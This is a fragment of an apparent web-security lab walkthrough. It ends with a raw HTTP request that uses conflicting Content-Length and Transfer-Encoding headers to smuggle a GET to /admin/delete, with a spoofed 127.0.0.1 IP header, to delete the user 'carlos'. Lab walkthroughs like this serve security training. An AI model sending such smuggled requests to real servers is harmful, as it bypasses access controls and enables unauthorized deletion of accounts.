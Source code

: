 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
a
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/e11d758c0795eb654f9e7170ce319f05.png)

Finally, delete the user:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 145
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
X-XfXVAo-Ip: 127.0.0.1

a
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
